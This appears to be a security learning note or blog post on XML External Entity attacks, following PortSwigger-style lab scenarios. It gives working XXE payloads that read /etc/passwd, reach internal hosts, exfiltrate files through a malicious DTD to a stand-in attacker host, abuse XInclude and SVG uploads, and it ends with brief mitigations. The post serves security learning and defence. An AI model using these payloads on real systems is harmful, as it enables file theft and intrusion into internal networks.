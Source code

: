 ```yaml
---
title: "XML External Entity"
tags:
    - WEB
    - xxe
date: "2024-08-8"
thumbnail: "/assets/img/thumbnail/xxe.png"
bookmark: true
---
```

# Description
---
Some applications use the XML format to transmit data between the browser and the server
`XML:` Extensible Markup Language, commonly used for data representation and transfer.
`External Entity:` A reference within the XML document to an external resource, which can be a file, URL, or another data source

# Impact 

use external entities to →
It often allows an attacker to view files on the application server filesystem, and to interact with any back-end or external systems that the application itself can access.

T**Types of XXE attacks:**

1- Exploiting XXE to retrieve files

2- Exploiting XXE to perform SSRF attacks

3- Exploiting blind XXE to exfiltrate data out-of-band

4- Exploiting blind XXE to retrieve data via error messages

# Scenarios 
Tip : "GET request for XML not found" changes the request to POST with XXE payload

 1- **retrieve the `/etc/passwd`file**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

 2- **XXE to SSRF**
```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>`
```
 3- **Blind XXE with out-of-band interaction**
```xml
<!DOCTYPE stockCheck [ <!ENTITY [xxe](https://portswigger.net/web-security/xxe) SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> ]>

<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
```

 4- **Exploiting blind XXE to exfiltrate data using a malicious external DTD with (BURP-COLLABORATOR)**

in malicious DTD file:
```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://BURP-COLLABORATOR-SUBDOMAIN/?x=%file;'>">
%eval;
%exfil;
```

in Request:
```xml
<!DOCTYPE foo [<!ENTITY % [xxe](https://portswigger.net/web-security/xxe) SYSTEM "YOUR-DTD-URL"> %xxe;]>
```
 5- **Exploiting blind XXE to retrieve data via error messages**

in malicious DTD file:

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

in Request:
```xml
<!DOCTYPE foo [<!ENTITY % [xxe](https://portswigger.net/web-security/xxe) SYSTEM "YOUR-DTD-URL"> %xxe;]>
```
 6- **using local DTD**

1- find DTD file already exists on server , we use this list https://github.com/GoSecure/dtd-finder/tree/master/list
s
with intruder in tis Request
<img src="/assets/img/xxe/1.png">
2- use this code 
https://github.com/GoSecure/dtd-finder/blob/master/list/xxe_payloads.md

```xml
<!DOCTYPE message [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```

 7- **XInclude attacks**

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```
<img src="/assets/img/xxe/2.png">

 8- **Exploiting XXE via image file upload**

SVG image with the following content:
```xml
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY [xxe](https://portswigger.net/web-security/xxe) SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```
---
# mitigation
---
- Disable External Entities: Configure the XML parser to disable the resolution of external entities.
- Use Safe Parsers: Utilize XML parsers that are known to be secure against XXE attacks.
- Input Validation: Validate and sanitize all user inputs, especially XML data, to ensure it doesn't contain malicious content.
---